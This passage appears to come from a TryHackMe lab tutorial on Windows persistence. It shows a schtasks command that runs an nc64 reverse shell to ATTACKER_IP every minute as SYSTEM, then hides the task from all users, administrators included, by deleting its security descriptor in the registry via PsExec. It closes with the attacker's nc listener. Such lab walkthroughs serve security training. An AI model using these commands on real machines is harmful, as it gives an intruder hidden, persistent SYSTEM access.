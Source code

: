 Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often, but we don't want to wait too long for this room:

`C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM`

**Note:** Be sure to use `THM-TaskBackdoor` as the name of your task, or you won't get the flag.

The previous command will create a "THM-TaskBackdoor" task and execute an `nc64` reverse shell back to the attacker. The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates that the task will run with SYSTEM privileges.

To check if our task was successfully created, we can use the following command:

`C:\> schtasks /query /tn thm-taskbackdoor`

### Making Our Task Invisible

Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable. To further hide our scheduled task, we can make it invisible to any user in the system by deleting its Security Descriptor (SD). The security descriptor is simply an ACL that states which users have access to the scheduled task. If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.

The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "SD" contains the security descriptor. You can only erase the value if you hold SYSTEM privileges.

To hide our task, let's delete the SD value for the "THM-TaskBackdoor" task we created before. To do so, we will use `psexec` (available in `C:\tools`) to open Regedit with SYSTEM privileges:

`C:\> c:\tools\pstools\PsExec64.exe -s -i regedit`

We will then delete the security descriptor for our task:

### 16.png

![App Screenshot](https://via.placeholder.com/468x300?text=App+Screenshot+Here)

If we try to query our service again, the system will tell us there is no such task:

`C:\> schtasks /query /tn thm-taskbackdoor`

If we start an nc listener in our attacker's machine, we should get a shell back after a minute:

`user@AttackBox$ nc -lvp 4449`

-------------------------------------------------------

## 5. Logon Triggered Persistence

Some actions performed by a user might also be bound to executing specific payloads for persistence. Windows operating systems present several ways to link payloads with particular interactions. This task will look at ways to plant payloads that will get executed when a user logs into the system.
